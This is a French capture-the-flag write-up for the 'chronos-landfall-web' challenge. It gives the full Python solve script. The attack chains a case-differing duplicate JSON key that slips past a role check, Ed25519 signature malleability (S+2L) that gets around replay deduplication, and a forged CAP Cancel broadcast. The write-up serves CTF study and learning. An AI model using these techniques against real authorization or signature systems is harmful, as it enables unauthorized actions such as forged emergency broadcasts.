



# Writeup : chronos-landfall-web

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : Go case-folded vs exact-key JSON parser differential on legacy /orders/staged; Ed25519 S+2L signature malleability defeats sig_sha256 single-use; CAP Cancel release digest

Outils observés : Python, urllib, curl, CTFd API

Cible : w01.ctf.chronos-security.ro:38390

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-landfall-web. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

# Landfall :  writeup

1. L’observer `l.brenn` ne peut pas dispatcher; l’ordre fabriqué `ANWA-CAP-d2505ffc-b410` couvre AS-MAR/AS-BRA.
2. L’archive `ANWA-CAP-18ffd8c6-9043` contient un grant NAA-04 Extreme `G-5aeda73fce` encore valable pour ces districts.
3. Le ledger révèle une divergence Ed25519: le broadcast accepte un scalaire S non réduit; l’anti-rejeu déduplique par SHA256(signature).
4. En réutilisant le grant avec `S+2L`, on obtient un nouveau hash de signature valide pour le verifier permissif.
5. `/api/v1/orders` et `/batch` utilisent le decoder v2 et rejettent les clés dupliquées; `/staged` conserve le passthrough v1.
6. Envoyer `operation=dispatch` suivi de `Operation=preview` fait voir `preview` au contrôle case-folded, mais `dispatch` au consommateur exact-key.
7. Le payload CAP est un `Cancel`, avec `references=sender,identifier,sent` de l’alerte actuelle et la même zone.
8. Le digest exigé est le SHA-256 de `landfall|ANWA-CAP-d2505ffc-b410|G-5aeda73fce|AS-BRA,AS-MAR`.
9. La réponse indique `BROADCAST`, annule l’ordre sur CBS-4370 et révèle le flag.
10. CTFd a accepté le flag (`status=correct`; `solved_by_me=true`).

FLAG : `CSCTF{WjmMn6Q7wS3qYGO3C9tVQJqv}`

### Exploitation

operation=dispatch puis Operation=preview; grant G-5aeda73fce; S+2L; unlock=SHA256(landfall|identifier|jti|sorted-area)

### Pièges

Ordre inverse renvoie policy.role_required; le grant Minor ne couvre pas l’action Extreme

### Notes locales conservées

# Landfall :  #9099 (résolu)

1. Cible assignée : `http://w01.ctf.chronos-security.ro:38390` ; aucun autre container arrêté ou touché.
2. CTFd : flag soumis via `/api/v1/challenges/attempt`, réponse `status=correct`; API confirme `solved_by_me=true`.
3. Console : `l.brenn` observer, autorité NAA-08. Le token de session est opaque (32 caractères), pas un JWT.
4. Ordre fabriqué actuellement à l'antenne : `ANWA-CAP-d2505ffc-b410`, areas `AS-MAR`,`AS-BRA`, Extreme.
5. Grant archivé `G-5aeda73fce` : NAA-04, severity Extreme, geos AS-MAR/AS-BRA/AS-ORE, validité couvrant l'heure opérationnelle.
6. Le ledger montre la signature canonique consommée (SHA256 `38db1a80...`) et la même signature malleée `S+L` acceptée downstream (SHA256 `50cd29b5...`) malgré le refus du verifier RFC 8032.
7. Les endpoints `/orders` et `/orders/batch` rejettent les clés dupliquées; `/orders/staged` est le passthrough legacy.
8. Le différentiel de casse sur la clé `operation` permet d'éviter le contrôle de rôle: `operation=dispatch` puis `Operation=preview`. Le contrôle case-folded voit `preview`, le parseur exact-key aval lit `dispatch`.
9. La single-use déduplique sur SHA256 de la signature; le grant est réutilisé avec `S+2L`, créant une signature non-canonique encore acceptée downstream et un hash inédit.
10. Le message CAP `Cancel` référence le triple sender/identifier/sent de l'ordre actuel. Le release digest est `SHA256("landfall|<identifier>|<jti>|AS-BRA,AS-MAR")`.
11. Broadcast confirmé sur CBS-4370; code/flag obtenu dans la réponse `release_digest`.

## Journal des essais pertinents

12. `operation=dispatch` seul :  `403 policy.role_required`.
13. `operation=cancel` :  `400 operation.unknown` malgré l'énumération trompeuse du schema.
14. Session mass assignment `role=admin/supervisor`, authority/scope :  ignoré; rôle observer conservé.
15. Mauvais ordre de casse (`operation=preview`, puis `Operation=dispatch`) :  contrôle rôle refuse dispatch.
16. Grant Minor :  `422 authorization.scope_insufficient` (target action requires Extreme).
17. Bon ordre + grant Extreme `G-5aeda73fce` + signature `S+2L` :  `200 BROADCAST`.

## Flag

`CSCTF{WjmMn6Q7wS3qYGO3C9tVQJqv}`

## Vérification finale / provenance
18. Preuve applicative de flag: `evidence/broadcast.json` contient le statut BROADCAST, le Cancel de `ANWA-CAP-d2505ffc-b410`, l’autorité `NAA-04`, le JTI et le digest-flag réel.
19. Preuve CTFd: `evidence/ctfd-submit.json` = `status: correct`; API relue après soumission: `solved_by_me=true`.
20. `evidence/attempt.json` conserve une requête candidate Minor/JTI différent issue des essais; ce n’est pas la soumission gagnante. La soumission acceptée et le mécanisme exact sont décrits dans `solve.py`/`writeup.md`; ne pas attribuer ce candidat Minor au broadcast final.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-landfall-web
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Landfall: staged v1 duplicate-member parser differential + Ed25519 S malleability."""
import base64, hashlib, json, re, urllib.request, urllib.error, xml.etree.ElementTree as ET
from pathlib import Path
BASE='http://w01.ctf.chronos-security.ro:38390'
def get(path, headers=None):
    q=urllib.request.Request(BASE+path,headers=headers or {})
    return urllib.request.urlopen(q).read().decode()
def post(path,obj,headers=None):
    q=urllib.request.Request(BASE+path,data=json.dumps(obj,separators=(',',':')).encode(),headers={'Content-Type':'application/json',**(headers or {})})
    try:
        with urllib.request.urlopen(q) as r:return r.status,r.read().decode(),dict(r.headers)
    except urllib.error.HTTPError as e:return e.code,e.read().decode(),dict(e.headers)
def b64d(s):return base64.urlsafe_b64decode(s+'='*((4-len(s)%4)%4))
def b64e(b):return base64.urlsafe_b64encode(b).rstrip(b'=').decode()
session=json.loads(post('/api/v1/session',{'operator':'l.brenn','passphrase':'c83ab98e2d12'})[1])
auth={'Authorization':'Bearer '+session['token']}
xml=ET.fromstring(get('/feed/cap/current')); ns={'c':'urn:oasis:names:tc:emergency:cap:1.2'}
def cap(tag):return xml.find('.//c:'+tag,ns).text
ident,sender,sent=cap('identifier'),cap('sender'),cap('sent')
area=sorted(x.text for x in xml.findall('.//c:geocode/c:value',ns))
arch=get('/feed/cap/archive/ANWA-CAP-18ffd8c6-9043')
grant=json.loads(re.search(r'dispatch authorization .*?: (\{[^\n]+\}) -->',arch).group(1))
claims=json.loads(b64d(grant['payload']))
# S+L is already the forged alert's consumed signature (ledger hash 50cd29...); +2L is fresh.
L=2**252+27742317777372353535851937790883648493
sig=bytearray(b64d(grant['sig'])); scalar=int.from_bytes(sig[32:],'little')+2*L
sig[32:]=scalar.to_bytes(32,'little'); grant['sig']=b64e(sig)
unlock=hashlib.sha256(f"landfall|{ident}|{claims['jti']}|{','.join(area)}".encode()).hexdigest()
payload={'identifier':'ANWA-CANCEL-'+ident,'sender':sender,'sent':'2026-11-07T03:26:00+00:00','status':'Actual','msgType':'Cancel','scope':'Public','references':f'{sender},{ident},{sent}','headline':'Cancellation of fabricated evacuation order','severity':'Extreme','area':area}
# /staged is the sole v1 passthrough. Outer policy sees preview; its downstream decoder uses the later dispatch.
raw='{"operation":"dispatch","Operation":"preview","payload":'+json.dumps(payload,separators=(',',':'))+',"authorization":'+json.dumps(grant,separators=(',',':'))+',"unlock":"'+unlock+'"}'
Path(__file__).with_name('attempt.json').write_text(json.dumps({'raw_body':raw,'unlock':unlock,'grant_jti':claims['jti']},indent=2))
req=urllib.request.Request(BASE+'/api/v1/orders/staged',data=raw.encode(),headers={'Authorization':'Bearer '+session['token'],'Content-Type':'application/json'})
try:
    with urllib.request.urlopen(req) as r: status,body=r.status,r.read().decode()
except urllib.error.HTTPError as e: status,body=e.code,e.read().decode()
print(status,body)
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{WjmMn6Q7wS3qYGO3C9tVQJqv}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
